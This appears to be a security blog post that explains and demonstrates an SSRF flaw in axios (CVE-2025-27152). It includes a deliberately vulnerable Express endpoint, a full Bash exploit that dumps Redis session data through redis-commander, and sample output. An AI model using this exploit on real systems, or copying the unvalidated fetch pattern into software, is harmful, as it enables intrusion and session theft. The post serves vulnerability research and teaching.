 ```yaml
---
title: "Exploiting CVE-2025-27152: SSRF in Axios"
publishedAt: "2025-03-12"
summary: "Building a proof-of-concept exploit for SSRF in axios@1.8.1"
---
```


## Credit

CVE-2025-27152 builds on CVE-2024-39338, originally discovered by [@jeffhacks](https://github.com/jeffhacks), you can read his detailed write up [here](https://jeffhacks.com/advisories/2024/06/24/CVE-2024-39338.html).
The issue evolved through discussions in [axios/axios#6463](https://github.com/axios/axios/issues/6463), highlighting the ongoing SSRF risks in Axios.

## Overview

Server-side request forgery (SSRF) enables attackers to manipulate a server into making unintended HTTP requests to internal resources.
This post explores [CVE-2025-27152](https://nvd.nist.gov/vuln/detail/CVE-2025-27152), an SSRF vulnerability in [Axios](https://www.npmjs.com/package/axios), a widely-used HTTP client for Node.js and browsers.
In Axios v1.8.1, absolute URLs (e.g., `http://attacker.com`) bypass the configured `baseURL`, allowing requests to unintended destinations.
I'll demonstrate this with a minimally-contrived proof-of-concept using common Node.js development tools &mdash; Express, Redis, and `redis-commander` &mdash; to reflect a practical development scenario.

Clone it from [GitHub](https://github.com/backuardo/exploit-workbench/tree/main/cve-2025-27152) to follow along.

## Vulnerable server setup

Here's a minimal Node.js server using [Express](https://expressjs.com/) and `axios@1.8.0` (vulnerable to CVE-2025-27152):

```ts
import express, { Request, Response } from "express";
import axios from "axios";

const app = express();
const PORT = 3000;

app.use(express.urlencoded({ extended: true }));

const client = axios.create({
  baseURL: "https://api.example.com", // ignored
  timeout: 5000,
});

// Vulnerable endpoint for SSRF
app.get("/fetch-url", async (req: Request, res: Response): Promise<void> => {
  const { url } = req.query;
  if (!url) {
    res.status(400).send("Missing URL");
    return;
  }
  try {
    const response = await client.get(url as string);
    res.send(response.data);
  } catch (error) {
    res.status(500).send(`Error fetching URL: ${(error as Error).message}`);
  }
});

app.listen(PORT, () => {
  console.log(`Server listening on port ${PORT}`);
});
```

This setup reflects a common development environment: an Express app with a `/fetch-url` endpoint, a local Redis instance (port 6379) seeded with fake session data via `@faker-js/faker`, and [`redis-commander`](https://github.com/joeferner/redis-commander) (port 8081) for web-based Redis management, running without authentication &mdash; a frequent default in development setups.

## Exploit

This Bash script exploits the SSRF flaw to extract Redis data via `redis-commander`. It requires `curl`, `jq`, and `sed`, and can be run with `./exploit.sh` or `./exploit.sh ./output.txt`.

```bash
#!/bin/sh

TARGET="http://localhost:3000/fetch-url"
OUTPUT_FILE="${1:-/dev/stdout}"
PORTS="8080 8081 8082"
FOUND_PORT=""

echo "Starting exploit... Output will be written to $OUTPUT_FILE"

# Guess the port
for port in $PORTS; do
  echo "Testing port $port..." >> "$OUTPUT_FILE"
  TEST_URL="http://localhost:$port/apiv2/keystree/R%3Alocalhost%3A6379%3A0/"
  RESPONSE=$(curl -s "$TARGET?url=$TEST_URL")
  if echo "$RESPONSE" | grep -q "data"; then
    FOUND_PORT="$port"
    echo "Found redis-commander on port $FOUND_PORT" >> "$OUTPUT_FILE"
    break
  fi
done

if [ -z "$FOUND_PORT" ]; then
  echo "Error: Could not find redis-commander on ports $PORTS" >> "$OUTPUT_FILE"
  exit 1
fi

CONNECTION="R%3Alocalhost%3A6379%3A0"

# Fetch top-level key prefixes
echo "Fetching top-level keys..." >> "$OUTPUT_FILE"
TOP_LEVEL_URL="http://localhost:$FOUND_PORT/apiv2/keystree/$CONNECTION/"
TOP_LEVEL_RESPONSE=$(curl -s "$TARGET?url=$TOP_LEVEL_URL")

echo "Sent: $TARGET?url=$TOP_LEVEL_URL" >> "$OUTPUT_FILE"
echo "Response: $TOP_LEVEL_RESPONSE" >> "$OUTPUT_FILE"

# Extract key prefixes
PREFIXES=$(echo "$TOP_LEVEL_RESPONSE" | jq -r '.data[].keyName')

# For each prefix, fetch children
for prefix in $PREFIXES; do
  echo "Fetching children for prefix: $prefix" >> "$OUTPUT_FILE"
  ENCODED_PREFIX=$(echo "$prefix" | sed 's/:/%3A/g')
  CHILDREN_URL="http://localhost:$FOUND_PORT/apiv2/keystree/$CONNECTION/$ENCODED_PREFIX?absolute=false"
  CHILDREN_RESPONSE=$(curl -s "$TARGET?url=$CHILDREN_URL")

  echo "Sent: $TARGET?url=$CHILDREN_URL" >> "$OUTPUT_FILE"
  echo "Response: $CHILDREN_RESPONSE" >> "$OUTPUT_FILE"

  # Extract child keys
  FULL_KEYS=$(echo "$CHILDREN_RESPONSE" | jq -r '.data[].id' | sed "s/^R:localhost:6379:0://")

  # Fetch value for each full key
  for key in $FULL_KEYS; do
    echo "Fetching value for key: $key" >> "$OUTPUT_FILE"
    ENCODED_KEY=$(echo "$key" | sed 's/:/%3A/g')
    VALUE_URL="http://localhost:$FOUND_PORT/apiv2/key/$CONNECTION/$ENCODED_KEY"
    VALUE_RESPONSE=$(curl -s "$TARGET?url=$VALUE_URL")

    echo "Sent: $TARGET?url=$VALUE_URL" >> "$OUTPUT_FILE"
    echo "Response: $VALUE_RESPONSE" >> "$OUTPUT_FILE"
  done
done

echo "Exploit complete." >> "$OUTPUT_FILE"
```

The SSRF vulnerability in Axios v1.8.1 allows an attacker to send HTTP requests to internal services, such as `redis-commander`. Here's how the exploit works:

### Step 1: Port guessing

The script probes common ports to locate `redis-commander`. In practice, attackers would perform reconnaissance to refine this &mdash; a simplification for this proof-of-concept.

```bash
PORTS="8080 8081 8082"
for port in $PORTS; do
  TEST_URL="http://localhost:$port/apiv2/keystree/R%3Alocalhost%3A6379%3A0/"
  RESPONSE=$(curl -s "$TARGET?url=$TEST_URL")
  if echo "$RESPONSE" | grep -q "data"; then
    FOUND_PORT="$port"
    break
  fi
done
```

### Step 2: Crawling Redis data

It then crawls the `redis-commander` API to dump keys and values, leveraging the SSRF to bypass network restrictions.

- **List keys**: fetches top-level prefixes (e.g., `sess:`, `config:`) from `/apiv2/keystree/R%3Alocalhost%3A6379%3A0/`.
- **Fetch children**: retrieves sub-keys (e.g., `admin` under `sess:`) from `/apiv2/keystree/R%3Alocalhost%3A6379%3A0/sess%3A?absolute=false`.
- **Get values**: extracts values (e.g., session data) from `/apiv2/key/R%3Alocalhost%3A6379%3A0/sess%3Aadmin`.

The script outputs to a file (or console) specified by a CLI argument:

```bash
OUTPUT_FILE="${1:-/dev/stdout}"
echo "Response: $VALUE_RESPONSE" >> "$OUTPUT_FILE"
```

## Sample output

```txt
Starting exploit... Output will be written to ./output.txt
Testing port 8080...
Testing port 8081...
Found redis-commander on port 8081
Fetching top-level keys...
Sent: http://localhost:3000/fetch-url?url=http://localhost:8081/apiv2/keystree/R%3Alocalhost%3A6379%3A0/
Response: {"data":[{"id":"R:localhost:6379:0:config:","text":"config:* (3)",...}]}
Fetching children for prefix: sess:
Sent: http://localhost:3000/fetch-url?url=http://localhost:8081/apiv2/keystree/R%3Alocalhost%3A6379%3A0/sess%3A?absolute=false
Response: {"data":[{"id":"R:localhost:6379:0:sess:admin","text":"admin",...}]}
Fetching value for key: sess:admin
Sent: http://localhost:3000/fetch-url?url=http://localhost:8081/apiv2/key/R%3Alocalhost%3A6379%3A0/sess%3Aadmin
Response: {"ttl":-1,"key":"sess:admin","type":"string","value":"{\"userId\":\"user:admin\",\"token\":\"jwt_abc123xyz789def456ghi789jkl012\",...}"}
...
Exploit complete.
```

This exposes all key/value pairs including session data, enabling potential session hijacking.

## Other possibilities

This proof-of-concept focuses on data exfiltration, but SSRF could also target other internal services (e.g., metadata endpoints in cloud environments), depending on the target's configuration.

## Conclusion

CVE-2025-27152 highlights Axios's SSRF risks in a realistic dev setup.
Explore the proof-of-concept on [GitHub](https://github.com/backuardo/exploit-workbench/tree/main/cve-2025-27152) and feel free to adapt it for your own research.
Always validate external inputs to mitigate such flaws.
